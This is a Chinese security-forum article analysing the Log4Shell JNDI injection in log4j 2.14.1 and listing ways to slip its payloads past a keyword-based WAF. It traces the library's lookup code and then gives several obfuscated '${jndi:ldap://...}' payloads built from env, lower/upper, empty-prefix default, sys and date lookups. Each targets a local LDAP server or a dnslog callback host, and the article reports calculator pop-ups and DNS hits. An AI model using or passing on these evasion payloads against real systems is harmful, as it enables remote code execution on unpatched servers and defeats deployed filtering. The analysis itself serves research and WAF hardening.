# Log4j WAF Bypass 技巧详细分析+总结-先知社区

> **来源**: https://xz.aliyun.com/news/17360  
> **文章ID**: 17360

---

# Log4j WAF Bypass 技巧详细分析+总结

## 前言

log4j 这个漏洞虽然是之前的了，但是对于一些 waf 的绕过还是非常值得去探索和分析的，这个漏洞可以说是核弹级别的漏洞了，如果没有完善的 waf 或者防护，还是有一些手法可以尝试去 bypass 的

## 环境搭建

只需要加入依赖

```
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>
    <groupId>org.example</groupId>
    <artifactId>log4j-rce</artifactId>
    <version>1.0-SNAPSHOT</version>
    <dependencies><!-- https://mvnrepository.com/artifact/org.apache.logging.log4j/log4j-core -->
        <dependency>
            <groupId>org.apache.logging.log4j</groupId>
            <artifactId>log4j-core</artifactId>
            <version>2.14.1</version>
        </dependency><!-- https://mvnrepository.com/artifact/org.apache.logging.log4j/log4j-api -->
        <dependency>
            <groupId>org.apache.logging.log4j</groupId>
            <artifactId>log4j-api</artifactId>
            <version>2.14.1</version>
        </dependency>
    </dependencies>
</project>
```

然后可以加载远程 class 的 jdk 都可以

```
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

public class log4j {
    private static final Logger logger = LogManager.getLogger(log4j.class);
    private static boolean wafFilter(String payload) {
        return payload.toLowerCase().contains("jndi") || payload.toLowerCase().contains("ldap");
    }

    public static void main(String[] args) {
        String payload = "${${env:ENV_NAME:-j}ndi${env:ENV_NAME:-:}${env:ENV_NAME:-l}dap${env:ENV_NAME:-:}//127.0.0.1:1389/Basic/Command/Y2FsYw==}";

        System.out.println("测试 Payload: " + payload);

        // 进行 WAF 过滤
        if (wafFilter(payload)) {
            System.out.println("❌ WAF 拦截，未记录日志");
        } else {
            try {
                logger.error(payload);
                System.out.println("✅绕过成功");
            } catch (Exception e) {
                System.out.println("❌ 绕过失败");
            }
        }
    }
}
```

## log4j 漏洞简单分析

首先看到我们的调用栈

```
lookup:207, Interpolator (org.apache.logging.log4j.core.lookup)
resolveVariable:1110, StrSubstitutor (org.apache.logging.log4j.core.lookup)
substitute:1033, StrSubstitutor (org.apache.logging.log4j.core.lookup)
substitute:912, StrSubstitutor (org.apache.logging.log4j.core.lookup)
substitute:978, StrSubstitutor (org.apache.logging.log4j.core.lookup)
substitute:912, StrSubstitutor (org.apache.logging.log4j.core.lookup)
replace:467, StrSubstitutor (org.apache.logging.log4j.core.lookup)
format:132, MessagePatternConverter (org.apache.logging.log4j.core.pattern)
format:38, PatternFormatter (org.apache.logging.log4j.core.pattern)
toSerializable:344, PatternLayout$PatternSerializer (org.apache.logging.log4j.core.layout)
toText:244, PatternLayout (org.apache.logging.log4j.core.layout)
encode:229, PatternLayout (org.apache.logging.log4j.core.layout)
encode:59, PatternLayout (org.apache.logging.log4j.core.layout)
directEncodeEvent:197, AbstractOutputStreamAppender (org.apache.logging.log4j.core.appender)
tryAppend:190, AbstractOutputStreamAppender (org.apache.logging.log4j.core.appender)
append:181, AbstractOutputStreamAppender (org.apache.logging.log4j.core.appender)
tryCallAppender:156, AppenderControl (org.apache.logging.log4j.core.config)
callAppender0:129, AppenderControl (org.apache.logging.log4j.core.config)
callAppenderPreventRecursion:120, AppenderControl (org.apache.logging.log4j.core.config)
callAppender:84, AppenderControl (org.apache.logging.log4j.core.config)
callAppenders:540, LoggerConfig (org.apache.logging.log4j.core.config)
processLogEvent:498, LoggerConfig (org.apache.logging.log4j.core.config)
log:481, LoggerConfig (org.apache.logging.log4j.core.config)
log:456, LoggerConfig (org.apache.logging.log4j.core.config)
log:63, DefaultReliabilityStrategy (org.apache.logging.log4j.core.config)
log:161, Logger (org.apache.logging.log4j.core)
tryLogMessage:2205, AbstractLogger (org.apache.logging.log4j.spi)
logMessageTrackRecursion:2159, AbstractLogger (org.apache.logging.log4j.spi)
logMessageSafely:2142, AbstractLogger (org.apache.logging.log4j.spi)
logMessage:2017, AbstractLogger (org.apache.logging.log4j.spi)
logIfEnabled:1983, AbstractLogger (org.apache.logging.log4j.spi)
error:740, AbstractLogger (org.apache.logging.log4j.spi)
main:20, log4j
```

漏洞就两个关键点

### MessagePatternConverter

这个类是转换器



可以看到对我们输入的数据处理部分会有很多的转换器

然后就开始调用我们的转换器处理我们的输入

```
public void format(final LogEvent event, final StringBuilder toAppendTo) {
        Message msg = event.getMessage();
        if (msg instanceof StringBuilderFormattable) {
            boolean doRender = this.textRenderer != null;
            StringBuilder workingBuilder = doRender ? new StringBuilder(80) : toAppendTo;
            int offset = workingBuilder.length();
            if (msg instanceof MultiFormatStringBuilderFormattable) {
                ((MultiFormatStringBuilderFormattable)msg).formatTo(this.formats, workingBuilder);
            } else {
                ((StringBuilderFormattable)msg).formatTo(workingBuilder);
            }

            if (this.config != null && !this.noLookups) {
                for(int i = offset; i < workingBuilder.length() - 1; ++i) {
                    if (workingBuilder.charAt(i) == '$' && workingBuilder.charAt(i + 1) == '{') {
                        String value = workingBuilder.substring(offset, workingBuilder.length());
                        workingBuilder.setLength(offset);
                        workingBuilder.append(this.config.getStrSubstitutor().replace(event, value));
                    }
                }
            }

            if (doRender) {
                this.textRenderer.render(workingBuilder, toAppendTo);
            }

        } else {
            if (msg != null) {
                String result;
                if (msg instanceof MultiformatMessage) {
                    result = ((MultiformatMessage)msg).getFormattedMessage(this.formats);
                } else {
                    result = msg.getFormattedMessage();
                }

                if (result != null) {
                    toAppendTo.append(this.config != null && result.contains("${") ? this.config.getStrSubstitutor().replace(event, result) : result);
                } else {
                    toAppendTo.append("null");
                }
            }

        }
    }
}
```



这个转换器会识别我们的一些特殊的标识符，比如 jndi，{}

如何提取的逻辑具体在 substitute 方法

```
private int substitute(final LogEvent event, final StringBuilder buf, final int offset, final int length, List<String> priorVariables) {
StrMatcher prefixMatcher = this.getVariablePrefixMatcher();
StrMatcher suffixMatcher = this.getVariableSuffixMatcher();
char escape = this.getEscapeChar();
StrMatcher valueDelimiterMatcher = this.getValueDelimiterMatcher();
boolean substitutionInVariablesEnabled = this.isEnableSubstitutionInVariables();
boolean top = priorVariables == null;
boolean altered = false;
int lengthChange = 0;
char[] chars = this.getChars(buf);
int bufEnd = offset + length;
int pos = offset;

while(true) {
    label117:
    while(pos < bufEnd) {
        int startMatchLen = prefixMatcher.isMatch(chars, pos, offset, bufEnd);
        if (startMatchLen == 0) {
            ++pos;
        } else if (pos > offset && chars[pos - 1] == escape) {
            buf.deleteCharAt(pos - 1);
            chars = this.getChars(buf);
            --lengthChange;
            altered = true;
            --bufEnd;
        } else {
            int startPos = pos;
            pos += startMatchLen;
            int endMatchLen = false;
            int nestedVarCount = 0;

            while(true) {
                while(true) {
                    if (pos >= bufEnd) {
                        continue label117;
                    }

                    int endMatchLen;
                    if (substitutionInVariablesEnabled && (endMatchLen = prefixMatcher.isMatch(chars, pos, offset, bufEnd)) != 0) {
                        ++nestedVarCount;
                        pos += endMatchLen;
                    } else {
                        endMatchLen = suffixMatcher.isMatch(chars, pos, offset, bufEnd);
                        if (endMatchLen == 0) {
                            ++pos;
                        } else {
                            if (nestedVarCount == 0) {
                                String varNameExpr = new String(chars, startPos + startMatchLen, pos - startPos - startMatchLen);
                                if (substitutionInVariablesEnabled) {
                                    StringBuilder bufName = new StringBuilder(varNameExpr);
                                    this.substitute(event, bufName, 0, bufName.length());
                                    varNameExpr = bufName.toString();
                                }

                                pos += endMatchLen;
                                String varName = varNameExpr;
                                String varDefaultValue = null;
                                int i;
                                int valueDelimiterMatchLen;
                                if (valueDelimiterMatcher != null) {
                                    char[] varNameExprChars = varNameExpr.toCharArray();
                                    int valueDelimiterMatchLen = false;

                                    label100:
                                    for(i = 0; i < varNameExprChars.length && (substitutionInVariablesEnabled || prefixMatcher.isMatch(varNameExprChars, i, i, varNameExprChars.length) == 0); ++i) {
                                        if (this.valueEscapeDelimiterMatcher != null) {
                                            int matchLen = this.valueEscapeDelimiterMatcher.isMatch(varNameExprChars, i);
                                            if (matchLen != 0) {
                                                String varNamePrefix = varNameExpr.substring(0, i) + ':';
                                                varName = varNamePrefix + varNameExpr.substring(i + matchLen - 1);
                                                int j = i + matchLen;

                                                while(true) {
                                                    if (j >= varNameExprChars.length) {
                                                        break label100;
                                                    }

                                                    if ((valueDelimiterMatchLen = valueDelimiterMatcher.isMatch(varNameExprChars, j)) != 0) {
                                                        varName = varNamePrefix + varNameExpr.substring(i + matchLen, j);
                                                        varDefaultValue = varNameExpr.substring(j + valueDelimiterMatchLen);
                                                        break label100;
                                                    }

                                                    ++j;
                                                }
                                            }

                                            if ((valueDelimiterMatchLen = valueDelimiterMatcher.isMatch(varNameExprChars, i)) != 0) {
                                                varName = varNameExpr.substring(0, i);
                                                varDefaultValue = varNameExpr.substring(i + valueDelimiterMatchLen);
                                                break;
                                            }
                                        } else if ((valueDelimiterMatchLen = valueDelimiterMatcher.isMatch(varNameExprChars, i)) != 0) {
                                            varName = varNameExpr.substring(0, i);
                                            varDefaultValue = varNameExpr.substring(i + valueDelimiterMatchLen);
                                            break;
                                        }
                                    }
                                }

                                if (priorVariables == null) {
                                    priorVariables = new ArrayList();
                                    ((List)priorVariables).add(new String(chars, offset, length + lengthChange));
                                }

                                this.checkCyclicSubstitution(varName, (List)priorVariables);
                                ((List)priorVariables).add(varName);
                                String varValue = this.resolveVariable(event, varName, buf, startPos, pos);
                                if (varValue == null) {
                                    varValue = varDefaultValue;
                                }
```

然后去除我们的特殊标识符后就调用对应的处理方法

resolveVariable

```
protected String resolveVariable(final LogEvent event, final String variableName, final StringBuilder buf, final int startPos, final int endPos) {
    StrLookup resolver = this.getVariableResolver();
    return resolver == null ? null : resolver.lookup(event, variableName);
}
```

在这里已经初见端倪了，已经有 lookup 了

```
public String lookup(final LogEvent event, String var) {
    if (var == null) {
        return null;
    } else {
        int prefixPos = var.indexOf(58);
        if (prefixPos >= 0) {
            String prefix = var.substring(0, prefixPos).toLowerCase(Locale.US);
            String name = var.substring(prefixPos + 1);
            StrLookup lookup = (StrLookup)this.strLookupMap.get(prefix);
            if (lookup instanceof ConfigurationAware) {
                ((ConfigurationAware)lookup).setConfiguration(this.configuration);
            }

            String value = null;
            if (lookup != null) {
                value = event == null ? lookup.lookup(name) : lookup.lookup(event, name);
            }

            if (value != null) {
                return value;
            }

            var = var.substring(prefixPos + 1);
        }

        if (this.defaultLookup != null) {
            return event == null ? this.defaultLookup.lookup(var) : this.defaultLookup.lookup(event, var);
        } else {
            return null;
        }
    }
}
```

处理标签的部分有如下  




这里我使用的 env，当然还有 jndi 的，就是直接去加载远程类了



### JndiLookup

这个就是我们 jndi 的实现类

```
public String lookup(final LogEvent event, final String key) {
    if (key == null) {
        return null;
    } else {
        String jndiName = this.convertJndiName(key);

        try {
            JndiManager jndiManager = JndiManager.getDefaultManager();
            Throwable var5 = null;

            String var6;
            try {
                var6 = Objects.toString(jndiManager.lookup(jndiName), (String)null);
            } catch (Throwable var16) {
                var5 = var16;
                throw var16;
            } finally {
                if (jndiManager != null) {
                    if (var5 != null) {
                        try {
                            jndiManager.close();
                        } catch (Throwable var15) {
                            var5.addSuppressed(var15);
                        }
                    } else {
                        jndiManager.close();
                    }
                }

            }

            return var6;
        } catch (NamingException var18) {
            LOGGER.warn(LOOKUP, "Error looking up JNDI resource [{}].", jndiName, var18);
            return null;
        }
    }
}
```

可以看到它的 lookup 就是我们常规的加载远程类的那个 lookup 的逻辑了，如果跟踪下去的话

参数如下



## log4j 防护绕过

### 防护方法

当然 log4j 有自己的修复方法，那就是给了选择项是否解析我们的特殊的符号，但是如果功能确实需要，那就是对我们的输入进行 waf 了

当然是 waf 掉我们的关键字符 jndi，ladp 等这些字符

比如随便写了一个 waf 的例子

```
private static boolean wafFilter(String payload) {
    return payload.toLowerCase().contains("jndi") || payload.toLowerCase().contains("ldap");
}
```

如果 waf 的逻辑是这样我们应该如何绕过呢？

我们使用普通的 payload



会被 waf 拦截

### 环境变量绕过

就是我们一开始使用的 payload

```
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

public class log4j {
    private static final Logger logger = LogManager.getLogger(log4j.class);
    private static boolean wafFilter(String payload) {
        return payload.toLowerCase().contains("jndi") || payload.toLowerCase().contains("ldap");
    }

    public static void main(String[] args) {
        String payload = "${${env:ENV_NAME:-j}ndi${env:ENV_NAME:-:}${env:ENV_NAME:-l}dap${env:ENV_NAME:-:}//127.0.0.1:1389/Basic/Command/Y2FsYw==}";

        System.out.println("测试 Payload: " + payload);

        // 进行 WAF 过滤
        if (wafFilter(payload)) {
            System.out.println("❌ WAF 拦截，未记录日志");
        } else {
            try {
                logger.error(payload);
                System.out.println("✅绕过成功");
            } catch (Exception e) {
                System.out.println("❌ 绕过失败");
            }
        }
    }
}
```

参考<https://logging.apache.org/log4j/2.12.x/manual/configuration.html>

在 Log4j 中，日志格式支持变量替换（Lookup），其中环境变量（Environment Lookup） 允许动态获取系统环境变量，语法如下：

```
logger.info("${env:HOME}");   // 读取 HOME 变量
logger.info("${env:USERNAME}"); // 读取 USERNAME 变量（Windows）
```

如果环境变量不存在，还可以提供默认值：

```
logger.info("${env:MY_VAR:-default_value}");
```

而我们利用的就是这个默认值返回我们想要的字符

我们测试一下

```
public static void main(String[] args) {
String payload = "${env:USERNAME}";
System.out.println("测试 Payload: " + payload);
logger.info(payload);
if (wafFilter(payload)) {
    System.out.println("❌ WAF 拦截，未记录日志");
} else {
    try {
        logger.error(payload);
        System.out.println("✅绕过成功");
    } catch (Exception e) {
        System.out.println("❌ 绕过失败");
    }
}
```



我们看看返回默认值，这样的话我们就能够构造我们任意需要的 payload



成功

我们就可以这样绕过

```
public static void main(String[] args) {
        String payload = "${${env:ENV_NAME:-j}ndi${env:ENV_NAME:-:}${env:ENV_NAME:-l}dap${env:ENV_NAME:-:}//127.0.0.1:1389/Basic/Command/Y2FsYw==}";
        System.out.println("测试 Payload: " + payload);
//        logger.info(payload);
        if (wafFilter(payload)) {
            System.out.println("❌ WAF 拦截，未记录日志");
        } else {
            try {
                logger.error(payload);
                System.out.println("✅绕过成功");
            } catch (Exception e) {
                System.out.println("❌ 绕过失败");
            }
        }
```



对应的实现类为  
lookup:36, EnvironmentLookup (org.apache.logging.log4j.core.lookup)



### 大小写标签绕过

#### lower

```
public static void main(String[] args) {
        String payload = "${${lower:j}ndi:${lower:l}${lower:d}a${lower:p}://127.0.0.1:1389/Basic/Command/Y2FsYw==}";
        System.out.println("测试 Payload: " + payload);
//        logger.info(payload);
        if (wafFilter(payload)) {
            System.out.println("❌ WAF 拦截，未记录日志");
        } else {
            try {
                logger.error(payload);
                System.out.println("✅绕过成功");
            } catch (Exception e) {
                System.out.println("❌ 绕过失败");
            }
        }
```



运行弹出计算器



转到对应的实现非常简单

```
public String lookup(final String key) {
    return key != null ? key.toLowerCase() : null;
}
```

就是直接小写

#### upper

但是这里大写是不能成功的，猜测可能不能识别 Jndi 这种标签或者 JNDI，当然我们可以尝试一下

```
public static void main(String[] args) {
String payload = "${jndi:ldap://5aa4ceb2.log.dnslog.sbs.}";
System.out.println("测试 Payload: " + payload);
logger.error(payload);
if (wafFilter(payload)) {
    System.out.println("❌ WAF 拦截，未记录日志");
} else {
    try {
        logger.error(payload);
        System.out.println("✅绕过成功");
    } catch (Exception e) {
        System.out.println("❌ 绕过失败");
    }
}
```



是有 DNS记录的，我们更换payload

```
public static void main(String[] args) {
String payload = "${Jndi:ldap://5aa4ceb2.log.dnslog.sbs.}";
System.out.println("测试 Payload: " + payload);
logger.error(payload);
if (wafFilter(payload)) {
    System.out.println("❌ WAF 拦截，未记录日志");
} else {
    try {
        logger.error(payload);
        System.out.println("✅绕过成功");
    } catch (Exception e) {
        System.out.println("❌ 绕过失败");
    }
}
```

发现已经没有了，尝试全大写



发现全大写是可以的，但是如果大小写混着就不可以

但是发现这样又不行

```
public static void main(String[] args) {
        String payload = "${${upper:j}${upper:n}${upper:d}${upper:i}:${upper:l}${upper:d}${upper:a}${upper:p}://5aa4ceb2.log.dnslog.sbs.}";
        System.out.println("测试 Payload: " + payload);
//        logger.error(payload);
        if (wafFilter(payload)) {
            System.out.println("❌ WAF 拦截，未记录日志");
        } else {
            try {
                logger.error(payload);
                System.out.println("✅绕过成功");
            } catch (Exception e) {
                System.out.println("❌ 绕过失败");
            }
        }
```

估计是没有识别到 LDAP 协议

```
public static void main(String[] args) {
String payload = "${${upper:j}${upper:n}${upper:d}${upper:i}:LDAP://8785af4a.log.dnslog.sbs.}";
System.out.println("测试 Payload: " + payload);
logger.error(payload);
if (wafFilter(payload)) {
    System.out.println("❌ WAF 拦截，未记录日志");
} else {
    try {
        logger.error(payload);
        System.out.println("✅绕过成功");
    } catch (Exception e) {
        System.out.println("❌ 绕过失败");
    }
}
```

验证了之后确实是这样的



可以看到是匹配到了 jndi 的

最后抛出了异常



识别不了协议，只好放弃

之后发现了项目中的 payload

```
public static void main(String[] args) {
String payload = "${jnd${upper:ı}:ldap://127.0.0.1:1389/Basic/Command/Y2FsYw==}";
System.out.println("测试 Payload: " + payload);
logger.error(payload);
if (wafFilter(payload)) {
    System.out.println("❌ WAF 拦截，未记录日志");
} else {
    try {
        logger.error(payload);
        System.out.println("✅绕过成功");
    } catch (Exception e) {
        System.out.println("❌ 绕过失败");
    }
}
```

这样就能够绕过，很奇怪

项目的原理是大写的 Unicode 字符无效

尝试把这个转换出来发现就是大写的 I，那其实应该就是大写的 I 还是能够匹配的

```
public static void main(String[] args) {
String payload = "${jndI:ldap://127.0.0.1:1389/Basic/Command/Y2FsYw==}";
System.out.println("测试 Payload: " + payload);
logger.error(payload);
if (wafFilter(payload)) {
    System.out.println("❌ WAF 拦截，未记录日志");
} else {
    try {
        logger.error(payload);
        System.out.println("✅绕过成功");
    } catch (Exception e) {
        System.out.println("❌ 绕过失败");
    }
}
```



事实确实如此

现在尝试各个部分大写

但是在 ldap 那里是没有办法的，所以只能这样了

### 前置符绕过

```
public static void main(String[] args) {
        String payload = "${${aasdaa::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://127.0.0.1:1389/Basic/Command/Y2FsYw==}";
        System.out.println("测试 Payload: " + payload);
//        logger.error(payload);
        if (wafFilter(payload)) {
            System.out.println("❌ WAF 拦截，未记录日志");
        } else {
            try {
                logger.error(payload);
                System.out.println("✅绕过成功");
            } catch (Exception e) {
                System.out.println("❌ 绕过失败");
            }
        }
```

在匹配的时候因为匹配不到 aasdaa 这种标签就会忽略返回 j，以此类推



具体逻辑是在 substitute:1033, StrSubstitutor (org.apache.logging.log4j.core.lookup)



当然同样的还有:-



这个直接弹了一堆计算器，估计还解析了多次



### System properties

```
public static void main(String[] args) {
        String payload = "${jnd${sys:SYS_NAME:-i}:lda${sys:SYS_NAME:-p}://127.0.0.1:1389/Basic/Command/Y2FsYw==}";
        System.out.println("测试 Payload: " + payload);
//        logger.error(payload);
        if (wafFilter(payload)) {
            System.out.println("❌ WAF 拦截，未记录日志");
        } else {
            try {
                logger.error(payload);
                System.out.println("✅绕过成功");
            } catch (Exception e) {
                System.out.println("❌ 绕过失败");
            }
        }
```



这个和我们的 env 非常的类似



首先识别出我们的 sys



然后调用对应的 lookup开始处理

```
public String lookup(final LogEvent event, final String key) {
    try {
        return System.getProperty(key);
    } catch (Exception var4) {
        LOGGER.warn(LOOKUP, "Error while getting system property [{}].", key, var4);
        return null;
    }
}
```

然后构造出完整 payload 后开始 jndi 注入



### date 标签

只不过这个 payload 类型需要比较特殊一点

和处理有关系

```
public static void main(String[] args) {
        String payload = "${jnd${date:'i'}:lda${date:'p'}://127.0.0.1:1389/Basic/Command/Y2FsYw==}";
        System.out.println("测试 Payload: " + payload);
//        logger.error(payload);
        if (wafFilter(payload)) {
            System.out.println("❌ WAF 拦截，未记录日志");
        } else {
            try {
                logger.error(payload);
                System.out.println("✅绕过成功");
            } catch (Exception e) {
                System.out.println("❌ 绕过失败");
            }
        }
```

  
处理 data



调用对应的 lookup  


```
public String lookup(final LogEvent event, final String key) {
    return this.formatDate(event.getTimeMillis(), key);
}

private String formatDate(final long date, final String format) {
    DateFormat dateFormat = null;
    if (format != null) {
        try {
            dateFormat = new SimpleDateFormat(format);
        } catch (Exception var6) {
            LOGGER.error(LOOKUP, "Invalid date format: [{}], using default", format, var6);
        }
    }

    if (dateFormat == null) {
        dateFormat = DateFormat.getInstance();
    }

    return ((DateFormat)dateFormat).format(new Date(date));
}
```

```
toString:671, StringBuffer (java.lang)
format:346, DateFormat (java.text)
formatDate:72, DateLookup (org.apache.logging.log4j.core.lookup)
lookup:57, DateLookup (org.apache.logging.log4j.core.lookup)
lookup:221, Interpolator (org.apache.logging.log4j.core.lookup)
resolveVariable:1110, StrSubstitutor
```



然后返回我们获得的值

最后就都是一样的了

​
